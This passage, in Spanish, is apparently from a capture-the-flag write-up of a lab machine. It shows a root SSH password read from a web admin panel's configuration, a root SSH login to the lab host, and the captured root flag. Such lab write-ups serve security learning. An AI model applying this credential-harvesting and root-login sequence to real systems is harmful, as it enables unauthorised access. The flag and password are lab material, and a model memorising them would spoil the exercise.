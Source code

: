Con el nuevo password, probamos a logarnos en la web. 

En la parte de configuracion, vemos el password para acceder por ssh como root;

![image.png](<imagenes/image 67.png>)

Password:  **NotACrackablePassword4U2022**

### Explotación 2

Accedermos por SSH con el password de root: 

```bash
ssh root@10.129.164.42
The authenticity of host '10.129.164.42 (10.129.164.42)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.164.42' (ED25519) to the list of known hosts.
root@10.129.164.42's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

root@unified:~# ls
root.txt
root@unified:~# cd    
root@unified:~# cat root.txt
e50bc93c75b634e4b272d2f771c33681
```

### Explotación 3
